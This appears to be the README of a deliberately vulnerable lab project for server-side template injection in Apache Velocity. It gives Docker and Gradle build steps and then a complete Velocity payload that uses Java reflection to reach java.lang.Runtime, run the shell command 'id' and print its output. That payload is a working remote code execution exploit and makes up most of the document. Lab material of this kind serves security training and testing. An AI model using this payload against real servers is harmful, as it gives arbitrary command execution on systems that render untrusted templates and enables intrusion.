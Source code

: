 # Template Injection Velocity


## Build instructions

Requirements:
 - Docker
 - Docker-compose
 - Java 8+

```
./gradlew build
```
```
docker-compose up
```


## Template Injection


```
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
